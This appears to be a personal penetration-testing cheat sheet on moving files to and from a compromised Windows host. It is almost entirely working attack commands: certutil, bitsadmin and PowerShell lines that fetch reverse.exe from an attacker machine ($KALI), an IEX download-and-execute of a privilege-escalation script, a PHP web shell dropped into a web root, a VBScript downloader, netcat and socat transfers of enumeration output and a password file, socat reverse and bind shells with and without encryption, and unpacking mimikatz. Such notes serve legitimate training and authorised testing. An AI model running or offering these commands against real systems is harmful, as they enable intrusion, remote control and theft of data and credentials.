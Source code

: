 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Certutil
[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
certutil -urlcache -split -f http://$KALI/reverse.exe
```

If unable to save in that location, simply find TEMP, save and execute there.
```command prompt - windows
echo %TEMP%
```

```command prompt - windows
cd %TEMP%
```

```command prompt - windows
certutil -urlcache -split -f http://$KALI/reverse.exe C:\Windows\TEMP\reverse64.exe
```

```command prompt - windows
C:\Windows\TEMP\reverse64.exe
```

Run PS download command in CMD (Note that we will need to press **enter** after the PowerShell command to get the cmd prompt back.):
```powershell - windows
powershell -command "(New-Object System.Net.WebClient).DownloadFile('http://$KALI/reverse.exe', '%TEMP%\Tools\reverse.exe')"
```


#### PowerShell Download and execute:
```powershell - windows
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/Invoke-LovelyPotato.ps1')
```

#### Powershell Just Download:
```powershell - windows
iwr http://$KALI/cmd.php -OutFile C:\xampp\htdocs\cmd.php
```

```powershell - windows
Invoke-WebRequest -Uri 'http://$KALI/reverse.exe' -OutFile reverse.exe
```

```powershell - windows
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://$KALI/reverse.exe','reverse.exe')"
```

#### SMB
[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#SMB File Transfer]]

#### Rdesktop share folder < BEST FOR BINARY FILES!
[[Port 3389 - RDP ~#rdesktop]]

#### Bitsadmin
```command prompt - windows
bitsadmin /create 1 bitsadmin /addfile 1 http://$KALI:80/reverse64.exe reverse64.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#FTP Server]]

#### PureFTPD_Installation
```bash - kali
sudo apt install pure-ftpd
```

```bash - kali
chmod +x PureFTPD_Setup.sh
```

```bash - kali
sudo ./PureFTPD_Setup.sh
```

#### PureFTPD_setup.sh

```bash - kali
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
systemctl restart pure-ftpd
```

#### PureFTPD_file transfer
```bash - Kali
service pure-ftpd start
```

```bash - kali
ftp $KALI
```

```bash - kali
offsec
```

```bash - kali
lab
```

```bash - kali
binary
```

```bash - kali
put winpeas.txt
```

```bash - kali
less -r winpeas.txt
```


### wget.vbs
```command prompt - kali
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

After you've created wget.vbs
```command prompt - kali
cscript wget.vbs http://$KALI/nc.exe nc.exe
```

##### netcat
On the receiving end running,

```
nc -l -p 1234 > out.file
```

will begin listening on port 1234.

On the sending end running,

```
nc -w 3 [destination] 1234 < out.file
```

PowerShell example:
```
cmd /c "nc.exe -w 3 [destination] 1234 < winpeas.txt"
```

#### Socat File Transfer
Sender:
```
sudo socat TCP4-LISTEN:443,fork file:secret_passwords.txt
```

Receiver:
```
socat TCP4:$KALI:443 file:received_secret_passwords.txt,create
```

#### Socat Windows Bind Shell
```
socat TCP4-LISTEN:443 EXEC:cmd.exe,pipes
```

```
socat - TCP4:$TARGET:443
```

#### Socat Encrypted Reverse Shell

```
openssl req -newkey rsa:2048 -nodes -keyout reverse_shell.key -x509 -days 362 -out reverse_shell.crt
```

```
cat reverse_shell.key reverse_shell.crt > reverse_shell.pem
```
KALI:
```
socat -d -d OPENSSL-LISTEN:4443,cert=reverse_shell.pem,verify=0,fork STDOUT
```

WINDOWS:
```
socat OPENSSL:$KALI:4443,verify=0 EXEC:'cmd.exe',pipes
```

#### Socat Encrypted Bind Shell
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
```

```
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

KALI:
```
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
```

TARGET:
```
socat - OPENSSL:$KALI:443,verify=0
```

#### Powershell unzip a file
```
expand-archive -path mimikatz.zip
```
